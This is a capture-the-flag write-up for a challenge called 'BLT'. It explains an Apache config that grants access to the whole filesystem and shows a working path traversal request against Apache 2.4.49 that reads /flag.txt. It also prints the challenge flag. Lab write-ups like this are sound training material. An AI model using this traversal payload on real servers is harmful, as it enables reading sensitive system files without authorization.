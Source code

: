 # BLT

## Description

Our company provides services for the development of the most modern software.

Can you check our landing page for vulnerabilities?

Here's our website: **`164.90.201.196:8080/`**

{% file src="../../.gitbook/assets/blt_a559171c04.zip" %}

## Solution

Taking a look at the Dockerfile, we quickly see a misconfiguration in the `apache.conf` file.

```docker
RUN echo "<VirtualHost *:80>\n \
DocumentRoot /var/www/html/\n \
<Directory \"/\">\n \
 Require all granted\n \
</Directory>\n \
</VirtualHost>" > /usr/local/apache2/conf/apache.conf
```

Here, `<Directory />` refers to the _filesystem_ directory, not the web root. Hence, this configuration allows access to any file on the filesystem.

Taking a closer look a the server responses showed that the Apache server is on version 2.4.49, and vulnerable to a recent path traversal zero-day.

![](<../../.gitbook/assets/image (80) (1).png>)

`GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt HTTP/1.1` allows us to get the flag at `/flag.txt`.

The flag is `spbctf{th3_lat3st_d03s_n0t_m3an_s3cur3}`
